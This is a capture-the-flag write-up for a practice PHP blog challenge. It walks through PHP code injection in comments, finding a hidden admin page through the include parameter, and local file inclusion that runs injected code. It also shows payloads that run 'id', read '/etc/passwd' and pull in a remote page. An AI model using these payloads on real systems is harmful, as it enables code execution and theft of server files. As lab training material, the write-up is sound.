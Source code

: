 # Cody's First Blog

## 1. Flag 1

Tried XSS in comments input `<script>alert(1)</script>` no luck.

Checked the banner had `PHP/5.5.9-1ubuntu4.24`

Tried `<?php echo "hello world!"?>` in comment input and submit. 

Got the flag.

## 2. Flag 2

Viewed the HTML source code found a comment line 

```php+HTML
<!--<a href="?page=admin.auth.inc">Admin login</a>-->
```

Tried `http://34.74.105.127/b7370ccb5d/?page=admin.auth.inc`

Got Admin login page. 

Tried some brute force, didn't work. 

Tried `http://34.74.105.127/b7370ccb5d/?page=aaa`

Got  error,![image-20200510141012566](/Users/rajsharm/Library/Application Support/typora-user-images/image-20200510141012566.jpg)

Script is adding .php to whatever value is being passed. 

Tried some template injection as well

```php
{php}echo `id`;{/php}
{php}$s = file_get_contents('/etc/passwd',NULL, NULL, 0, 100); var_dump($s);{/php}
```

None of them work. 

Intestingly noticed `:` in `?page=aaa:` didn't throw any error.

Tried remote page inclusion

`http://34.74.105.127/b7370ccb5d/?page=http://dude0.co/test`

Didn't work, the page was not accessible. The intro was right.

Tried, `http://34.74.105.127/b7370ccb5d/?page=http://localhost/index` , it worked.

But need to find a way to inject code to.

Interestingly, after some reseach come to know that `admin.auth.inc` is three files.

`admin` , `auth`, `inc` , when used in include, all of them are included. 

Tried, `http://34.74.105.127/b7370ccb5d/?page=admin` no luck

Tried, `http://34.74.105.127/b7370ccb5d/?page=auth` no luck

Tried, `http://34.74.105.127/b7370ccb5d/?page=admin.inc` , BAAMM !! Got into admin page Directly. 

Flag was at the bottom.

## 3. Flag 3

With admin page access We have the ability to approve any comments. Good now we have Server XSS. 

Approved my previous comment made during Flag 1. 

Loaded,`http://34.74.105.127/b7370ccb5d/?page=http://localhost/index`

Got Hello World! in page. 

Great 

Now commented `<?php echo readfile('index.php');?>` and approved it.

`http://34.74.105.127/b7370ccb5d/?page=http://localhost/index`

Loaded the page again, 

Got the source code and it included flag.



## Lessons

Wasted much of my time in Template injection vulnerability, tried injections for several template in php like twig and others. None of them worked. 

Also wasted much of the time in file inclusion, trying to inlude the file from remote server. Didn't work either.

Lesson: Stick to basic, analyze the problem, read the descriptions in page. Tried to prove the descriptions wrong with one or two attempts don't waste most of the time on that. They are usually correct. Check the banner and try to use banner specific attack instead of wasting time on random attacks.







